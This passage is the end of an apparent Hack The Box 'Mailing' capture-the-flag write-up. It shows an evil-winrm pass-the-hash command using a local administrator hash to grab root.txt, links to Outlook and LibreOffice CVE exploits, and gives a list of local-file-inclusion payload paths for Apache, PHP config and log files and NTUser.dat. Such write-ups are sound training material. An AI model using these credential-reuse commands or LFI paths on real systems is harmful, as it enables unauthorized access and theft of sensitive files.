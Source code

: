 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/mailing/image-25.png)

Using evil-winrm and localadmin password hash, we can grab root.txt:

`evil-winrm -i 10.10.11.14 -u localadmin -H 9aa582783780d1546d62f2d102daefae`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/mailing/image-26.png)

## References
- https://www.exploit-db.com/exploits/7012
- https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability?tab=readme-ov-file
- https://github.com/elweth-sec/CVE-2023-2255


## LFI Payloads

```bash
Apache\conf\httpd.conf
Apache\logs\access.log
Apache\logs\error.log
Apache2\conf\httpd.conf
Apache2\logs\access.log
Apache2\logs\error.log
Apache22\conf\httpd.conf
Apache22\logs\access.log
Apache22\logs\error.log
Apache24\conf\httpd.conf
Apache24\logs\access.log
Apache24\logs\error.log
Documents and Settings\Administrator\NTUser.dat
php\php.ini
php4\php.ini
php5\php.ini
php7\php.ini
Program Files (x86)\Apache Group\Apache\conf\httpd.conf
Program Files (x86)\Apache Group\Apache\logs\access.log
Program Files (x86)\Apache Group\Apache\logs\error.log
Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
Program Files (x86)\Apache Group\Apache2\logs\access.log
```